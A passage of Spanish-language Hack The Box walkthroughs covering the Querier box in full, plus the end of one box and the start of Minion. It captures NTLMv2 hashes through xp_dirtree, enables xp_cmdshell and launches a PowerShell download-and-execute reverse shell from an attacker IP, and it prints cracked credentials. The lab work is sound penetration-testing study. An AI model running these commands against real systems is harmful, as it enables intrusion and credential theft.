\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ main.go}
\FunctionTok{ls}
\ExtensionTok{upx}\NormalTok{ main}
\FunctionTok{mv}\NormalTok{ main exploit}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima nos conectamos al contenedor

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ /usr/bin/docker exec -it webapp-dev01 bash}
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{wget}\NormalTok{ http://10.10.14.8/exploit}
\FunctionTok{ls}
\FunctionTok{chmod}\NormalTok{ +x exploit}
\ExtensionTok{./exploit}
\end{Highlighting}
\end{Shaded}
\item
  No conectamos nuevamente con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa noah@10.10.10.230}
\FunctionTok{sudo}\NormalTok{ /usr/bin/docker exec -it webapp-dev01 /bin/sh}
\FunctionTok{ls}\NormalTok{ -l /bin/bash}
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya estamos root y podemos leer la flag

\hypertarget{querier}{%
\chapter*{Querier}\label{querier}}
\addcontentsline{toc}{chapter}{Querier}

\hypertarget{introduccion-9}{%
\section*{Introduccion}\label{introduccion-9}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 02/08/2021 se llama Querier
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=Dkz_r70OM8U}{\includegraphics{https://img.youtube.com/vi/Dkz_r70OM8U/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-9}{%
\section*{Enumeracion}\label{enumeracion-9}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-9}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-9}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-9}{%
\subsubsection*{Ping}\label{ping-9}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.125}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows.
Recuerda que tratandose de ttl 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-9}{%
\subsubsection*{Nmap}\label{nmap-9}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.125 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 10.10.10.125 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
\begin{minipage}[b]{0.06\columnwidth}\raggedright
Puerto\strut
\end{minipage} & \begin{minipage}[b]{0.15\columnwidth}\raggedright
Servicio\strut
\end{minipage} & \begin{minipage}[b]{0.48\columnwidth}\raggedright
Que se nos occure?\strut
\end{minipage} & \begin{minipage}[b]{0.20\columnwidth}\raggedright
Que falta?\strut
\end{minipage}\tabularnewline
\midrule
\endhead
\begin{minipage}[t]{0.06\columnwidth}\raggedright
135\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
rpc\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
139\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
netbios-ssn\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
445\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
smb\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
crackmapexec, smbclient, smbmap\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
1433\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
mssql\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Intento de connexion con credenciales por defecto\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
usuario y contraseña\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
5985\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
winrm\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
connexion directa con evil-winrm\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
usuario y contraseña\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
47001\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49664\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49665\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49666\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49667\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49668\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49669\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49670\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.06\columnwidth}\raggedright
49671\strut
\end{minipage} & \begin{minipage}[t]{0.15\columnwidth}\raggedright
windows puertos\strut
\end{minipage} & \begin{minipage}[t]{0.48\columnwidth}\raggedright
Puertos windows que no nos lleva a nada\strut
\end{minipage} & \begin{minipage}[t]{0.20\columnwidth}\raggedright
\strut
\end{minipage}\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analizando-el-smb-445}{%
\subsection*{Analizando el smb 445}\label{analizando-el-smb-445}}
\addcontentsline{toc}{subsection}{Analizando el smb 445}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Scannear el servicio smb

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.125}
\end{Highlighting}
\end{Shaded}
\item
  Listar los recursos compartido a nivel de red usando un NULL session

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.125 -N}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos conectarnos al recurso Reports

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient} \StringTok{"//10.10.10.125/Reports"}\NormalTok{ -N}
\FunctionTok{dir}
\ExtensionTok{get} \StringTok{"Currency Volume Report.xlsm"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Que vemos:

\begin{itemize}
\tightlist
\item
  nombre : QUERIER
\item
  maquina : Windows 10 x64
\item
  domain : HTB.LOCAL
\item
  recurso compartido : Reports
\item
  archivo encontrado : Currency Volume Report.xlsm
\end{itemize}

\hypertarget{conexion-por-mssql-credenciales-por-defecto}{%
\subsection*{Conexion por MSSQL credenciales por defecto}\label{conexion-por-mssql-credenciales-por-defecto}}
\addcontentsline{toc}{subsection}{Conexion por MSSQL credenciales por defecto}

Intentamos conectarnos al servicio MSQL con credenciales por defecto usando \texttt{mssqlclient.py}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ mssqlclient.py}
\ExtensionTok{/usr/bin/mssqlclient.py}\NormalTok{ WORKGROUP/sa:sa@10.10.10.125}
\ExtensionTok{/usr/bin/mssqlclient.py}\NormalTok{ WORKGROUP/sa@10.10.10.125}
\end{Highlighting}
\end{Shaded}

El usuario por defecto \textbf{sa} no nos va con la contraseña \textbf{sa} y sin contraseña. Intentamos volverlo a intentar
con el parametro \texttt{-windows-auth}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/bin/mssqlclient.py}\NormalTok{ WORKGROUP/sa:sa@10.10.10.125 -windows-auth}
\ExtensionTok{/usr/bin/mssqlclient.py}\NormalTok{ WORKGROUP/sa@10.10.10.125 -windows-auth}
\end{Highlighting}
\end{Shaded}

Bueno aqui no esta functionado

\hypertarget{evaluacion-de-vulnerabilidades-9}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-9}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{analizamos-el-fichero-xlsm}{%
\subsection*{Analizamos el fichero xlsm}\label{analizamos-el-fichero-xlsm}}
\addcontentsline{toc}{subsection}{Analizamos el fichero xlsm}

\begin{verbatim}
type "Currency Volume Report.xlsm"
#Output
Microsoft Excel 2007+

strings Currency\ Volume\ Report.xlsm
\end{verbatim}

\hypertarget{analisis-de-ficheros-microsoft-office-con-olevba}{%
\subsubsection*{Analisis de ficheros Microsoft office con olevba}\label{analisis-de-ficheros-microsoft-office-con-olevba}}
\addcontentsline{toc}{subsubsection}{Analisis de ficheros Microsoft office con olevba}

\textbf{olevba} es un script escrito en python que permite parsear OLE y OpenXML como documentos MS Office (word, excel, \ldots)
para extraer codig VBA Macros en texto claro, deobfuscate y analyzo de macros maliciosas

Instalacion

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/decalage2/oletools}
\BuiltInTok{cd}\NormalTok{ oletools}
\ExtensionTok{python3}\NormalTok{ setup.py install}
\end{Highlighting}
\end{Shaded}

Utilizacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{olevba}\NormalTok{ Currency}\DataTypeTok{\textbackslash{} }\NormalTok{Volume}\DataTypeTok{\textbackslash{} }\NormalTok{Report.xlsm}
\end{Highlighting}
\end{Shaded}

Aqui olevba nos muestra una macro \texttt{ThisWorkbook.cls} y credenciales de base de datos en texto claro.

Antes de intentar conectarnos al servicio MSSQL, validamos las credenciales con crackmapexec.

\hypertarget{validacion-de-credenciales-con-crackmapexec}{%
\subsection*{Validacion de credenciales con CrackMapExec}\label{validacion-de-credenciales-con-crackmapexec}}
\addcontentsline{toc}{subsection}{Validacion de credenciales con CrackMapExec}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.125 -u }\StringTok{'reporting'}\NormalTok{ -p }\StringTok{'PcwTW1HRwryjc$c6'}
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.125 -u }\StringTok{'reporting'}\NormalTok{ -p }\StringTok{'PcwTW1HRwryjc$c6'}\NormalTok{ -d WORKGROUP}
\end{Highlighting}
\end{Shaded}

CrackMapExec nos muestra un \textbf{{[}-{]}} que quiere decir que el usuario no es valido a nivel de dominio HTB.LOCAL. Pero
nos muestra un \textbf{{[}+{]}} con el dominio WORKGROUP. Esto quiere decir quel usuario reporting existe a nivel local.

Aqui ya sabemos que la credencial es valida

\hypertarget{conexion-con-evil-winrm-usuario-reporting}{%
\subsection*{Conexion con evil-winrm usuario reporting}\label{conexion-con-evil-winrm-usuario-reporting}}
\addcontentsline{toc}{subsection}{Conexion con evil-winrm usuario reporting}

Como tenemos credenciales y que sabemos que son validas, intentamos conectarnos con \textbf{Evil-WinRM}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.125 -u }\StringTok{'reporting'}\NormalTok{ -p }\StringTok{'PcwTW1HRwryjc'}
\end{Highlighting}
\end{Shaded}

Aqui no funciona.

\hypertarget{conexion-al-servicio-mssql-usuario-reporting}{%
\subsection*{Conexion al servicio MSSQL usuario reporting}\label{conexion-al-servicio-mssql-usuario-reporting}}
\addcontentsline{toc}{subsection}{Conexion al servicio MSSQL usuario reporting}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/local/bin/mssqlclient.py}\NormalTok{ WORKGROUP/reporting@10.10.10.125 -windows-auth}
\ExtensionTok{password}\NormalTok{: PcwTW1HRwryjc}\VariableTok{$c6}

\ExtensionTok{SQL}\OperatorTok{>} 
\end{Highlighting}
\end{Shaded}

Con MSSQL hay un comando que se llama \texttt{xp\_cmdshell} que nos permite enviar comandos a nivel de sistema

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_cmdshell} \StringTok{"whoami"}
\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{-}\NormalTok{] ERROR(QUERIER)}\BuiltInTok{:}\NormalTok{ Line 1: The EXECUTE permission was denied}
\end{Highlighting}
\end{Shaded}

Aqui el truquillo seria de configurar la posibilidad al usuario de ejecutar comandos avanzados

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sp_configure} \StringTok{"show advanced"}\NormalTok{, 1}
\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{-}\NormalTok{] ERROR(QUERIER)}\BuiltInTok{:}\NormalTok{ Line 105: User does not have permission to perform this action}
\end{Highlighting}
\end{Shaded}

Como aqui vemos que el usuario reporting no tiene derechos de lanzar comandos o modificar las configuraciones, lo que vamos a intentar
es entablar una conexion a nivel de red que el proprio usuario reporting no puede hacer porque es usuario local. Hay un comando de
MSSQL llamado \texttt{xp\_dirtree} que permite buscar ficheros en recursos compartidos

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante, creamos un recurso compartido con smb

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ --smb2support}
\end{Highlighting}
\end{Shaded}
\item
  En el mssql lanzamos el comando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_dirtree} \StringTok{"}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{10.10.14.8\textbackslash{}smbFolder\textbackslash{}test"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya podemos ver que la conexion a funcionado y que podemos ver un hash NTLMv2 del usuario \textbf{mssql-svc}.
Aqui copiamos el hash en un fichero y lo crackeamos con John. A vezes el hash puede que no sea del todo correcto, y si es
el caso, podemos intentar hacer la misma maniobra con la herramienta \textbf{responder} en vez de la \textbf{impacket-smbserver}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante, creamos un recurso compartido con smb

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ /usr/share/responder/Responder.py -I tun0 -rdw}
\end{Highlighting}
\end{Shaded}
\item
  En el mssql lanzamos el comando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_dirtree} \StringTok{"}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{10.10.14.8\textbackslash{}EEEE"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui podemos ver que tambien se puede interceptar el hash NTLMv2.

\hypertarget{crackeo-de-hash-ntlmv2-con-john}{%
\subsection*{Crackeo de hash NTLMv2 con John}\label{crackeo-de-hash-ntlmv2-con-john}}
\addcontentsline{toc}{subsection}{Crackeo de hash NTLMv2 con John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Ya hemos podido crackear el hash NTLMv2 del usuario \textbf{mssql-svc}. Y como siempre cuando el servicio \textbf{SMB} esta abierto,
nueva credencial obtenida, nueva credencial que validamos con CrackMapExec.

\hypertarget{validacion-de-las-creds-de-mssql-svc}{%
\subsection*{Validacion de las creds de mssql-svc}\label{validacion-de-las-creds-de-mssql-svc}}
\addcontentsline{toc}{subsection}{Validacion de las creds de mssql-svc}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.125 -u }\StringTok{'mssql-svc'}\NormalTok{ -p }\StringTok{'corporate568'}\NormalTok{ -d WORKGROUP}
\end{Highlighting}
\end{Shaded}

CrackMapExec nos reporta un \textbf{{[}+{]}} quiere decir que las credenciales son validas. Nuevamente intentamos conectarnos por
WinRM

\hypertarget{conexion-con-evil-winrm-usuario-mssql-svc}{%
\subsection*{Conexion con evil-winrm usuario mssql-svc}\label{conexion-con-evil-winrm-usuario-mssql-svc}}
\addcontentsline{toc}{subsection}{Conexion con evil-winrm usuario mssql-svc}

Como tenemos credenciales y que sabemos que son validas, intentamos conectarnos con \textbf{Evil-WinRM}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.125 -u }\StringTok{'mssql-svc'}\NormalTok{ -p }\StringTok{'corporate568'}
\end{Highlighting}
\end{Shaded}

Aqui tampoco nos funciona.

\hypertarget{conexion-al-servicio-mssql-usuario-mssql-svc}{%
\subsection*{Conexion al servicio MSSQL usuario mssql-svc}\label{conexion-al-servicio-mssql-usuario-mssql-svc}}
\addcontentsline{toc}{subsection}{Conexion al servicio MSSQL usuario mssql-svc}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/local/bin/mssqlclient.py}\NormalTok{ WORKGROUP/mssql-svc:corporate568@10.10.10.125 -windows-auth}

\ExtensionTok{SQL}\OperatorTok{>} 
\end{Highlighting}
\end{Shaded}

Intentamos el comando \texttt{xp\_cmdshell}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_cmdshell} \StringTok{"whoami"}
\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{-}\NormalTok{] ERROR(QUERIER)}\BuiltInTok{:}\NormalTok{ Line 1: SQL Server blocked access to procedure }\StringTok{'sys.xp_cmdshell'}\NormalTok{ of component}
    \StringTok{'xp_cmdshell'} \ExtensionTok{because}\NormalTok{ this component is turned off ...}
\end{Highlighting}
\end{Shaded}

Aqui el error es distincto al del otro usuario. Intentamos nuevamente modificar las configuraciones.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sp_configure} \StringTok{"xp_cmdshell"}\NormalTok{, 1}
\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{-}\NormalTok{] ERROR(QUERIER)}\BuiltInTok{:}\NormalTok{ Line 62: The configuration option }\StringTok{'xp_cmdshell'}\NormalTok{ does not exist, or it may be an advanced option.}
\end{Highlighting}
\end{Shaded}

El mensaje de error aqui es claro, y si es una option avanzada tenemos que modificar la config de esta option.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sp_configure} \StringTok{"show advanced"}\NormalTok{, 1}
\ExtensionTok{reconfigure}
\ExtensionTok{sp_configure} \StringTok{"xp_cmdshell"}\NormalTok{, 1}
\ExtensionTok{reconfigure}
\ExtensionTok{xp_cmdshell} \StringTok{"whoami"}
\CommentTok{#Output}

\ExtensionTok{querier}\NormalTok{\textbackslash{}mssql-svc}
\end{Highlighting}
\end{Shaded}

Ahora si. Ya podemos lanzar comandos a nivel de sistema. La idea ahora seria meternos en el sistema con una reverse shell.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-9}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-9}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{entablar-una-reverse-shell-de-typo-powershell}{%
\subsection*{Entablar una reverse shell de typo Powershell}\label{entablar-una-reverse-shell-de-typo-powershell}}
\addcontentsline{toc}{subsection}{Entablar una reverse shell de typo Powershell}

Aqui vamos hacer uso de las powershells reversas de Nishang

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/samratashok/nishang}
\BuiltInTok{cd}\NormalTok{ nishang}
\BuiltInTok{cd}\NormalTok{ Shells}
\FunctionTok{cp}\NormalTok{ Invoke-PowerShellTcp.ps1 /home/.../content/PS.ps1}
\end{Highlighting}
\end{Shaded}

En el fichero PS.ps1, añadimos el invoke del script al final del fichero

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{Invoke-PowershellTcp -Reverse -IPAddress 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{14}\NormalTok{.}\FunctionTok{8}\NormalTok{ -Port 443}
\end{Highlighting}
\end{Shaded}

Esto nos permite lanzar el Script directamente despues de descargamiento del fichero en la maquina victima

\hypertarget{enviamos-y-ejecutamos-la-reverse-shell}{%
\subsection*{Enviamos y ejecutamos la reverse shell}\label{enviamos-y-ejecutamos-la-reverse-shell}}
\addcontentsline{toc}{subsection}{Enviamos y ejecutamos la reverse shell}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  montamos un http server con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina de atacante en una nueva shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  en la mssql shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_cmdshell} \StringTok{"powershell IEX(New-Object Net.WebClient).downloadString(}\DataTypeTok{\textbackslash{}"}\StringTok{http://10.10.14.8/PS.ps1}\DataTypeTok{\textbackslash{}"}\StringTok{)"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya estamos a dentro.

\hypertarget{analizamos-el-sistema}{%
\subsection*{Analizamos el sistema}\label{analizamos-el-sistema}}
\addcontentsline{toc}{subsection}{Analizamos el sistema}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\ExtensionTok{ipconfig}
\NormalTok{[}\ExtensionTok{Environment}\NormalTok{]::Is64BitOperatingSystem}
\NormalTok{[}\ExtensionTok{Environment}\NormalTok{]::Is64BitProcess}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegios-8}{%
\section*{Escalada de Privilegios}\label{escalada-de-privilegios-8}}
\addcontentsline{toc}{section}{Escalada de Privilegios}

\hypertarget{rootear-la-maquina-5}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-5}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}\NormalTok{ /priv}
\CommentTok{#Output}

\ExtensionTok{SEImpersonatePrivilege}
\end{Highlighting}
\end{Shaded}

Aqui ya vemos que podemos escalar privilegios con \texttt{JuicyPotatoe.exe} o \texttt{RotenPotatoe.exe} pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/PowerShellMafia/PowerSploit}
\BuiltInTok{cd}\NormalTok{ PowerSploit}
\BuiltInTok{cd}\NormalTok{ Privesc}
\ExtensionTok{vi}\NormalTok{ PowerUp.ps1}
\end{Highlighting}
\end{Shaded}

Aqui vamos a hacer lo mismo que con el fichero \texttt{PS.ps1}. En vez de enviarlo y despues invocarlo, matamos dos pajaros
de un tiro y añadimos el \textbf{Invoke} al final del fichero \texttt{PowerUp.ps1}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Invoke-AllChecks}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un servicio web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{IEX}\NormalTok{(New-Object Net.WebClient)}\ExtensionTok{.downloadString}\NormalTok{(}\StringTok{'http://10.10.14.8/PowerUp.ps1'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Este script nos reporta un monton de cosas y aqui podemos ver

\begin{itemize}
\tightlist
\item
  SEImpersonatePrivilege
\item
  Service UsoSvc
\item
  encotro la contraseña para el usuario Administrator en un fichero Groups.xml
\end{itemize}

\hypertarget{validamos-las-credenciales-del-usuario-administrator}{%
\subsection*{Validamos las credenciales del usuario Administrator}\label{validamos-las-credenciales-del-usuario-administrator}}
\addcontentsline{toc}{subsection}{Validamos las credenciales del usuario Administrator}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.125 -u }\StringTok{'Administrator'}\NormalTok{ -p }\StringTok{'MyUnclesAreMarioAndLuigi!!1!'}\NormalTok{ -d WORKGROUP}
\end{Highlighting}
\end{Shaded}

Ya vemos un \textbf{{[}+{]}} y un \textbf{(Pwn3d)}. Quiere decir que podemos connectarnos al systema con \texttt{psexec}

\hypertarget{conexion-con-psexec.py}{%
\subsection*{Conexion con psexec.py}\label{conexion-con-psexec.py}}
\addcontentsline{toc}{subsection}{Conexion con psexec.py}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{psexec.py}\NormalTok{ WORKGROUP/Administrator@10.10.10.125 cmd.exe}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{nt}\NormalTok{ authority\textbackslash{}system}
\end{Highlighting}
\end{Shaded}

Ya estamos como root y podemos ver la flag ;)

\begin{quote}
{[}!{]} NOTA: S4vitar nos enseña mas tecnicas para conectarnos en el video. Os invito a verlas a partir del minuto 1:24:20
\end{quote}

\hypertarget{minion}{%
\chapter*{Minion}\label{minion}}
\addcontentsline{toc}{chapter}{Minion}

\hypertarget{introduccion-10}{%
\section*{Introduccion}\label{introduccion-10}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 03/08/2021 se llama Minion
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=l0mCUUHATr4}{\includegraphics{https://img.youtube.com/vi/l0mCUUHATr4/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-10}{%
\section*{Enumeracion}\label{enumeracion-10}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-10}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-10}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-10}{%
\subsubsection*{Ping}\label{ping-10}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.57}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows.
Recuerda que en cuanto a ttl respecta 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-10}{%
\subsubsection*{Nmap}\label{nmap-10}}
\addcontentsline{toc}{subsubsection}{Nmap}

